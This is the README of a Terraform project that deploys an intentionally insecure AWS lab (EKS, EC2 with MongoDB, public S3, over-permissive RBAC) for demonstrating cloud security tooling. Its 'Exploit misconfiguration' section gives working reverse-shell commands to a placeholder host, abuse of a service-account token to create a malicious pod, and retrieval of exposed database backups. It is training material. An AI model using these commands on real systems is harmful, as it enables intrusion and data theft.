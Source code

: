 # Cloud Security AWS environment
This terraform project deploy EKS,EC2,S3,IAM and VPC without security best practices. This environement can be used to show the importance of cloud security posture management and cloud worload protection solutions. Do not use this project on a production environement

# Topology
![topology](https://github.com/WS-Prakash/AWS-Security-Sandbox/assets/102661806/1a1a40d9-c83e-4428-abbd-cf30dcacffe2)


# Requirement
- AWS CLI access to the cloud account
- Kubectl installed
- Terraform installed

# Environment
The terraform project deploy the following resources
- The network infrastructure: VPC, subnets, IGW, route tables, security groups
- IAM roles and Policies
- S3 bucket publicaly accessible
- MongoDB installed on an EC2 instance. During the boot, we enable mongodb authentication, take a backup snapshot and store it on the S3 bucket. The ec2 instance has an instance profile which allow full access to aws ec2.
- EKS cluster with Node Group
- Wordrpress and Myql Pods. Wordress is exposed to internet via Kubernetes services with type loadbalancer. Pods has cluster admin rights.
- Open source vulnerability scanners. Kube-bench and kube-hunter

# Installation
The order is important
- Download the terraform project into a local machine
```sh
git clone https://github.com/imsed/cloud-security-aws-environement
cd cloud-security-aws-environement
```
- Deploy the infra module 
```sh
cd infra
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy the mongodb database on an ec2 instance
```sh
cd compute
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy EKS
```sh
cd eks
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
- Deploy kubernetes pods
```sh
cd kubernetes
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```

- Deploy scanner jobs
```sh
cd scanners
terraform init
terraform plan
terraform apply
cd cloud-security-aws-environement
```
# scanners
- You can scan the terraform project using IaC code security scanner like checkov.
```sh
cd ../cloud-security-aws-environement
checkov --directory cloud-security-aws-environement
```
- kube-bench (CIS benchmark). You can view the result of the scan 
```sh
kubectl logs kube-bench-xxx
```
- kube-hunter. You can view the result of the scan 
```sh
kubectl logs kube-hunter-xxx
```
# Exploit misconfiguration

- expoloit the ec2 instance profile from the mongodb ec2 instance
```sh
ubuntu@ip-172-31-13-230:~$ aws ec2 describe-instances

You can create a new ec2 with reverse shell to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)

ubuntu@ip-172-31-13-230:~$ more reverse-shell.sh
#!/bin/bash
bash -i >& /dev/tcp/a.b.c.d/27017 0>&1

ubuntu@ip-172-31-13-230:~$ aws ec2 run-instances --image-id ami-05a8c865b4de3b127 --instance-type t2.micro --user-data file://reverse-shell.sh --security-group-ids <security group id> --subnet-id <subent id> --region <aws region> 
```
- mongodb backups accessible from internet. You can install mongodb in your machine, dowbload the backup and then restore it
```sh
wget <url of the mongodb backup file from s3>
tar -xf mongodb-xxxx.tar
mongorestore mongodb-xxxx
```
- Permissive RBAC permissions. From the wordpress pod you can excute curl command agains the EKS cluster.
```sh
aws eks update-kubeconfig --region <aws region> --name  "name of the eks cluster you deployed"
kubectl exec -it wordrepss... -- bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
##List all pods running on EKS
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods/
##create a new pod with a reverse shell code to a controlled machine with public IP a.b.c.d and listens on port 27017 or any other ports(nc -lv 27017)
curl -s -k -m 3 -H "Authorization: Bearer $TOKEN" https://${KUBERNETES_SERVICE_HOST}/api/v1/namespaces/default/pods \
  -X POST \
  -H 'Content-Type: application/yaml' \
  -d '---
  apiVersion: v1
  kind: Pod
  metadata:
    labels:
      run: mongoclient
    name: mongoclient
  spec:
    containers:
    - image: mongo
      name: mongoclient
      command: ["/bin/bash"]
      args: ["-c","bash -i >& /dev/tcp/a.b.c.d/27017 0>&1"]
'


```
# Destroy environment

```sh
cd cloud-security-aws-environement
cd scanners
terraform destroy
cd kubernetes
terraform destroy
cd eks
terraform destroy
cd compute
terraform destroy
cd infra
terraform destroy
```
